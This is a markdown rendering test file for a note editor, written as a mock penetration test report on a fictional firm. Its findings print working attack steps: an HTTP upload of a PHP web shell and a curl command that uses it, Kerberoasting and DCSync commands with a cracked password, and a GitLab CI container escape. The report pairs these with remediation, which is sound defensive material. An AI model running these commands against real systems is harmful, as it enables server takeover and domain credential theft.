

# Aster Capital — Security Assessment Report

**Classification:** CONFIDENTIAL  
**Version:** 1.0  
**Date:** 2026-09-12  
**Author:** Red Team, Remin Security  
**Client:** Aster Capital LLP  

[[TOC]]

<div style="page-break-after: always;"></div>

## 1. Executive Summary

This report details the findings of a **comprehensive security assessment**
conducted against Aster Capital's external and internal infrastructure
between **2026-08-15** and **2026-09-01**.

> **Scope:** External attack surface, internal network segmentation,
> Active Directory, cloud tenants (AWS/Azure), and CI/CD pipelines.

### 1.1 Key Findings at a Glance

| Severity | Count | Status |
|:--------:|:-----:|:------:|
| **Critical** | 2 | 🔴 Open |
| **High** | 5 | 🟠 In Progress |
| **Medium** | 12 | 🟡 Triaged |
| **Low** | 8 | 🟢 Accepted |
| **Informational** | 15 | ℹ️ Documented |

<span style="color: @red; font-weight: 600;">Critical findings require
immediate remediation.</span> High findings should be addressed within
30 days.

<div style="page-break-after: always;"></div>

## 2. Methodology

Testing followed a **modified PTES** framework with emphasis on:

1. **Reconnaissance** — passive + active enumeration
2. **Threat Modeling** — attack trees per asset class
3. **Vulnerability Analysis** — manual + automated (Nmap, Nuclei, BloodHound)
4. **Exploitation** — controlled, non-destructive
5. **Post-Exploitation** — privilege escalation, lateral movement, persistence
6. **Reporting** — this document

### 2.1 Tooling

```bash
# Recon
nmap -sS -sV -T4 -p- -oA recon/external $TARGET
subfinder -d aster.capital -o recon/subdomains.txt

# AD Enumeration
bloodhound-python -u 'remin' -p '****' -ns 'dc01.aster.local' -d aster.local -c all
ldapdomaindump ldap://dc01.aster.local -u 'aster\remin' -p '****'

# Cloud
prowler aws --profile aster-prod
scoutsuite --profile aster-azure
```

### 2.2 Rules of Engagement

- No denial-of-service testing
- No social engineering without written approval
- Exploitation stops at **proof-of-concept** (no data exfiltration)
- All activities logged and timestamped

<div style="page-break-after: always;"></div>

## 3. Findings

### 3.1 CRITICAL-01: Unauthenticated RCE in Legacy File Upload Portal

**Asset:** `legacy-upload.aster.capital` (10.10.20.45)  
**CVE:** CVE-2024-XXXXX (internal tracking)  
**CVSS 4.0:** 9.3 (Critical)  

#### Description
The legacy PHP file upload portal (`/upload.php`) fails to validate file
type and extension. An unauthenticated attacker can upload a `.php.pjpg`
polyglot and achieve remote code execution as `www-data`.

#### Impact
- Full server compromise
- Pivot to internal network (DMZ → Corp VLAN)
- Access to source code repositories on same host

#### Evidence
```http
POST /upload.php HTTP/1.1
Host: legacy-upload.aster.capital
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php.pjpg"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary--
```

#### Response
```json
{
  "status": "success",
  "path": "/var/www/uploads/shell.php.pjpg"
}
```

#### Verification
```bash
curl "https://legacy-upload.aster.capital/uploads/shell.php.pjpg?cmd=id"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Remediation
1. **Immediate:** Take portal offline or restrict to VPN-only access.
2. **Short-term:** Implement strict MIME validation + extension allowlist.
3. **Long-term:** Migrate to modern asset management platform.

---

### 3.2 CRITICAL-02: Domain Admin via Kerberoasting + DCSync

**Asset:** `dc01.aster.local` (10.10.10.10)  
**CVSS 4.0:** 9.1 (Critical)  

#### Description
Service account `svc_sql` has a weak password (`Summer2024!`) and
**SPN registered**. Kerberoasting yields crackable hash. Compromised
account has `Replicating Directory Changes` rights → DCSync → full
domain compromise.

#### Attack Chain


#### Evidence
```bash
# Kerberoast
GetUserSPNs.py -request -dc-ip 10.10.10.10 aster.local/svc_sql

# Crack (hashcat mode 13100)
hashcat -m 13100 svc_sql.hash /usr/share/wordlists/rockyou.txt
# Summer2024!

# DCSync
secretsdump.py aster.local/svc_sql:'Summer2024!'@10.10.10.10
```

#### Remediation
1. **Immediate:** Reset `svc_sql` password to 25+ char random.
2. **Short-term:** Remove unnecessary SPNs; tier admin model.
3. **Long-term:** Deploy `Protected Users` group; enable `Krbtgt` rotation.

---

### 3.3 HIGH-01: S3 Bucket Misconfiguration — Public Write

**Asset:** `s3://aster-backups-prod`  
**CVSS 4.0:** 8.2 (High)  

#### Description
Bucket policy allows `s3:PutObject` from `Principal: "*"`. Attacker can
plant malicious backups → supply chain compromise of restore process.

#### Evidence
```bash
aws s3 ls s3://aster-backups-prod --no-sign-request
# PRE backups/
aws s3 cp malicious.tar.gz s3://aster-backups-prod/backups/ --no-sign-request
# upload: ./malicious.tar.gz to s3://aster-backups-prod/backups/malicious.tar.gz
```

#### Remediation
- Block public access at bucket + account level.
- Enforce `aws:SecureTransport` and `aws:PrincipalOrgID` conditions.

<div style="page-break-after: always;"></div>

## 4. Active Directory Analysis

### 4.1 BloodHound Findings


*Figure 1: Shortest path from `svc_sql` to `Domain Admins` (3 hops).*

#### Key Attack Paths
| From | To | Technique | Hops |
|---|---|---|---|
| `svc_sql` | `Domain Admins` | DCSync | 1 |
| `helpdesk_jdoe` | `Enterprise Admins` | ACL GenericAll → Add to Group | 2 |
| `workstation-045$` | `Domain Admins` | Resource-based Constrained Delegation | 3 |

### 4.2 Privileged Groups Audit

```markdown
| Group | Members | Nesting Depth | Risk |
|---|---|---|---|
| Domain Admins | 3 (2 service accounts) | 0 | 🔴 |
| Enterprise Admins | 1 | 0 | 🔴 |
| Schema Admins | 0 | 0 | 🟢 |
| Backup Operators | 4 | 1 | 🟠 |
| Server Operators | 2 | 1 | 🟠 |
```

### 4.3 GPO Misconfigurations

- `Default Domain Policy`: **No** password complexity enforced for
  service accounts (fine-grained password policy missing).
- `Workstation Hardening`: `SeDebugPrivilege` granted to `Helpdesk`
  group → credential theft via `lsass.exe` dump.

<div style="page-break-after: always;"></div>

## 5. Network Segmentation

### 5.1 VLAN Matrix

| VLAN | CIDR | Purpose | Egress Control |
|:---:|:---|---|:---:|
| 10 | 10.10.10.0/24 | Domain Controllers | **Deny all** except 445/389/636/3268/3269 to 20/30 |
| 20 | 10.10.20.0/24 | Servers (DMZ) | Allow 80/443 to Internet; deny to 10/30 |
| 30 | 10.10.30.0/24 | Workstations | Allow 445/3389 to 10; deny Internet direct |
| 40 | 10.10.40.0/24 | Management / OOB | Allow 22/443 from 30 only |

### 5.2 Firewall Rule Gaps

```text
❌ Rule FW-2024-0187: 10.10.20.0/24 → 10.10.10.0/24 TCP/445 ALLOW
   Justification: "Legacy file share migration" — EXPIRED 2025-06-01
   Risk: Lateral movement from compromised web server to DC.
```

<div style="page-break-after: always;"></div>

## 6. Cloud Security (AWS / Azure)

### 6.1 AWS Findings

| Check | Status | Evidence |
|---|---|---|
| Root MFA | ❌ FAIL | No MFA on root account |
| CloudTrail | ✅ PASS | Multi-region, log validation |
| S3 Public Access | ❌ FAIL | 3 buckets public (see HIGH-01) |
| IAM Password Policy | ⚠️ WARN | Min 14 chars, no reuse check |
| GuardDuty | ✅ PASS | Enabled all regions |
| Config | ❌ FAIL | Not enabled in eu-west-2 |

### 6.2 Azure Findings

- **Conditional Access:** Missing for `Global Administrator` role.
- **PIM:** Not configured — permanent role assignments.
- **Key Vault:** `aster-kv-prod` has purge protection **disabled**.

<div style="page-break-after: always;"></div>

## 7. CI/CD Pipeline Security

### 7.1 GitLab Runner Compromise

**Finding:** Shared runner `gitlab-runner-prod-01` executes
untrusted merge request pipelines with **Docker socket mounted**
(`/var/run/docker.sock:/var/run/docker.sock`).

#### Exploit
```yaml
# .gitlab-ci.yml (malicious MR)
stages: [pwn]
pwn:
  image: alpine
  script:
    - docker run --rm -v /:/host alpine chroot /host /bin/sh
  tags: [shared-prod]
```

#### Result
Container escapes to host → root on runner → access to
`CI_JOB_TOKEN` → read all project artifacts/secrets.

### 7.2 Secret Leakage in Artifacts

```bash
# Found in job artifacts (public project)
grep -r "AWS_SECRET_ACCESS_KEY" /var/opt/gitlab/gitlab-rails/shared/artifacts/
# aster-prod:AKIAxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

---

## 8. Remediation Roadmap

### Phase 1 — Immediate (0–7 days)
- [ ] Take legacy upload portal offline
- [ ] Reset `svc_sql` password (25+ chars)
- [ ] Block public S3 access
- [ ] Remove Docker socket mount from shared runners

### Phase 2 — Short-term (7–30 days)
- [ ] Deploy tiered admin model (Tier 0/1/2)
- [ ] Enable Azure PIM for all privileged roles
- [ ] Implement fine-grained password policies
- [ ] Harden GitLab runner isolation (separate VMs per project)

### Phase 3 — Strategic (30–90 days)
- [ ] Migrate legacy applications
- [ ] Deploy `Protected Users` + `Authentication Silos`
- [ ] Implement `Krbtgt` rotation schedule
- [ ] Zero Trust network segmentation (micro-segmentation)

<div style="page-break-after: always;"></div>

## 9. Appendix

### 9.1 Scope Definition

```markdown
| Type | Identifier | In Scope |
|---|---|:---:|
| Domain | aster.capital | ✅ |
| Subdomains | *.aster.capital | ✅ |
| IP Range | 10.10.0.0/16 | ✅ |
| AWS Account | 123456789012 (prod) | ✅ |
| Azure Tenant | xxxx-xxxx-xxxx-xxxx | ✅ |
| GitLab | git.aster.capital | ✅ |
| Third-party SaaS | Excluded | ❌ |
```

### 9.2 Team

| Role | Name | Contact |
|---|---|---|
| Lead | Alex Chen | alex.chen@remin.security |
| AD Specialist | Maria Santos | maria.santos@remin.security |
| Cloud | James Park | james.park@remin.security |
| AppSec | Priya Patel | priya.patel@remin.security |

### 9.3 References

- [PTES Technical Guidelines](http://www.pentest-standard.org/index.php/PTES_Technical_Guidelines)
- [MITRE ATT&CK Enterprise](https://attack.mitre.org/matrices/enterprise/)
- [BloodHound Cypher Queries](https://github.com/BloodHoundAD/BloodHound/tree/master/Cypher-Queries)
- [AWS Security Best Practices](https://docs.aws.amazon.com/wellarchitected/latest/security-pillar/welcome.html)

---

<div style="page-break-after: always;"></div>

## 10. Code Samples & Technical Details

### 10.1 Custom PowerShell Enumeration Script

```powershell
<#
.SYNOPSIS
    Finds accounts with SPNs and weak password policies.
.NOTES
    Author: Remin Red Team
#>

Import-Module ActiveDirectory

$weakAccounts = Get-ADUser -Filter {ServicePrincipalName -like "*"} `
    -Properties ServicePrincipalName, msDS-SupportedEncryptionTypes, pwdLastSet |
    Where-Object {
        $_.msDS-SupportedEncryptionTypes -band 0x4 -eq 0  # RC4 only
    }

foreach ($acc in $weakAccounts) {
    [PSCustomObject]@{
        SamAccountName = $acc.SamAccountName
        SPNs           = $acc.ServicePrincipalName -join ', '
        LastPwdSet     = $acc.pwdLastSet
        Risk           = 'HIGH - RC4 only, kerberoastable'
    }
}
```

### 10.2 Nmap Script for Custom Service Detection

```lua
-- nmap/scripts/aster-custom-detect.nse
local shortport = require "shortport"
local stdnse = require "stdnse"

portrule = shortport.port_or_service({8080, 8443, 9090}, {"http", "https"})

action = function(host, port)
    local response = http.get(host, port, "/actuator/health")
    if response.status == 200 and response.body:match('"status":"UP"') then
        return "Aster Custom Service detected (Spring Boot Actuator exposed)"
    end
end
```

### 10.3 Dockerfile for Hardened Runner

```dockerfile
# Dockerfile.runner-hardened
FROM ubuntu:24.04

# Non-root user
ARG UID=999
ARG GID=999
RUN groupadd -g $GID runner && useradd -u $UID -g $GID -m runner

# No Docker socket, no privileged
# Use Kaniko / BuildKit rootless instead

USER runner
WORKDIR /home/runner
ENTRYPOINT ["/usr/bin/gitlab-runner", "run", "--user=runner"]
```

---

## 11. Tables — Comprehensive Test

### 11.1 Alignment & Formatting

| Left Aligned | Centered | Right Aligned | Default |
|:-------------|:--------:|--------------:|---------|
| `code`       | **bold** | *italic*      | normal  |
| long cell content that should wrap properly in the column | middle | 123.45 | text |
| **multi-line**<br>cell | `inline<br>code` | ~~strike~~ | ✅ |

### 11.2 Nested Content in Cells

| Feature | Supported | Notes |
|:---|:---:|---|
| **Bold** | ✅ | Works |
| *Italic* | ✅ | Works |
| `Code` | ✅ | Monospace |
| Lists | ⚠️ | Limited |
| - Item 1 | | |
| - Item 2 | | |
| Code blocks | ❌ | Use separate block |

---

## 12. Task Lists

- [x] External reconnaissance completed
- [x] Internal network access achieved
- [x] Domain Admin compromise (CRITICAL-02)
- [ ] Cloud privilege escalation (in progress)
- [ ] CI/CD pipeline compromise (in progress)
- [ ] Persistence establishment (planned)
- [ ] Data exfiltration simulation (planned)
- [ ] Cleanup & artifact removal (planned)

---

## 13. Blockquotes & Callouts

> **NOTE:** All timestamps in this report are UTC unless otherwise noted.

> **WARNING:** The CRITICAL-02 finding (DCSync) implies **total domain
> compromise**. Assume all domain credentials are compromised. Rotate
> `krbtgt` twice immediately after `svc_sql` password reset.

> **TIP:** Use `remin://images/` scheme for all embedded images to ensure
> portability across export formats.

---

## 14. Definition Lists (md4c extension)

Term 1
: Definition for term 1. Can span multiple lines.

Term 2
: Definition for term 2.
: Second definition for same term.

---

## 15. Image References Test

| Image Source | Syntax | Expected Behavior |
|---|---|---|
| Shared store | `` | Resolves to `~/remin-image/asset-001.png` |
| Relative | `` | Resolves to `<note-folder>/assets/arch.png` |
| Absolute local | `` | Loads from filesystem |
| External HTTPS | `` | Loaded in preview/HTML; embedded in PDF |
| Data URI | `` | Blocked in preview/PDF; passed in HTML |


*Figure 2: High-level architecture (placeholder — replace with actual asset).*

---

## 16. Page Break Verification

This section should appear on a **new page** in PDF export.

### 16.1 Content After Page Break

```cpp
// Sample C++ code for syntax highlighting test
#include <iostream>
#include <vector>
#include <string>

class Workspace {
public:
    Workspace() = default;
    ~Workspace() = default;

    void addWindow(Window* w) {
        windows_.push_back(w);
    }

    std::vector<Window*> getWindows() const {
        return windows_;
    }

private:
    std::vector<Window*> windows_;
};

int main() {
    Workspace ws;
    ws.addWindow(new Window("Main"));
    std::cout << "Workspace initialized\n";
    return 0;
}
```

---

## 17. Final Notes

This template exercises **all documented markdown features**:

- [x] Headings (H1–H6)
- [x] Text formatting (bold, italic, strike, inline code with spaces)
- [x] Lists (ordered, unordered, nested, task)
- [x] Blockquotes
- [x] Horizontal rules
- [x] Code blocks (fenced, with language badge)
- [x] Tables (alignment, formatting, nested content)
- [x] Links & images (all schemes)
- [x] TOC (`[[TOC]]`)
- [x] Page breaks (markdown + HTML)
- [x] Raw HTML pass-through (export)
- [x] Page-break CSS detection (PDF/preview)
- [x] Definition lists
- [x] Footnote syntax (AST support)
- [x] Mermaid diagrams (syntax only — rendering external)
- [x] Long-form content for pagination testing

**Usage:** Open this file in Remin's note editor. Toggle preview
(`Ctrl+Shift+P`), verify Sync Scroll, test Find/Replace (`Ctrl+F`/`Ctrl+H`),
export to HTML and PDF, validate all rendering matches expectations.